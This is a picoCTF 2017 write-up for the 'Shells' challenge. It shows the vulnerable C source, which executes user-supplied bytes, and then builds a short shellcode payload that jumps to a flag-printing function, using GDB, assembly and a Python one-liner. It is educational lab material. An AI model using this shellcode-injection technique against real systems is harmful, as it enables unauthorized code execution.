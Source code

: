 ## Writeup Shells
###picoCTF2017

The objective is try to get the flag of this level. The information that is given is the binary (wich is running in a certain IP:port) and the soruce code of it: 


```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

#define AMOUNT_OF_STUFF 10

//TODO: Ask IT why this is here
void win(){
    system("/bin/cat ./flag.txt");    
}


void vuln(){
    char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(stuff == MAP_FAILED){
        printf("Failed to get space. Please talk to admin\n");
        exit(0);
    }
    printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
    fflush(stdout);
    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
    if(len == 0){
        printf("You didn't give me anything :(");
        exit(0);
    }
    void (*func)() = (void (*)())stuff;
    func();      
}

int main(int argc, char*argv[]){
    printf("My mother told me to never accept things from strangers\n");
    printf("How bad could running a couple bytes be though?\n");
    fflush(stdout);
    vuln();
    return 0;
}

```

Notice that the funcion `win()` seems to retrieve information about the flag, but there is no call to this function in the `main()` or `vuln()` function.

If you execute the program you'll realise that it asks for entering some bytes in the variable `stuff`, and it may be a good place to exploit.

So what we'll gonna try is to insert some code that makes the program "jump" to the `win()` function.

Although we have the binary, we compile it again with the following options: 

`gcc -fno-stack-protector -z execstack -m32 -o shells.out shells.c`

In this case we use `-fno-stack-protector` so there's no stack protection and `-m32` cause the original binary is 32bits.

We'll use GDB to debug the binary:

```
$ gdb -q shells.out               
Reading symbols from shells.out...(no debugging symbol
s found)...done.                                      
(gdb)                                                 
```
What we want to know is the address for the `win()` function.

```
(gdb) p win                                           
$1 = {<text variable, no debug info>} 0x804853b <win> 
(gdb)                                                 

```

For this case what we want the execution of the program to jump to this address. The solution is to write some code that can be inserted in `stuff` and the executed:

```asm
mov eax, 0x804853b
call eax
````
*If you are using a 64bit binary you can use `rax` register.*

If you [Assemble] (https://www.google.com) de code you'll get the following string:

```

"\xB8\x3B\x85\x04\x08\xFF\xD0"

```

That's the string we should use to jump to the `win()` function.

Finally we save this string to a file:

```
python -c "print('\xB8\x3B\x85\x04\x08\xFF\xD0')" >payload

```

And the we use it to run the binary:
```
cat payload - | shell.out

```



















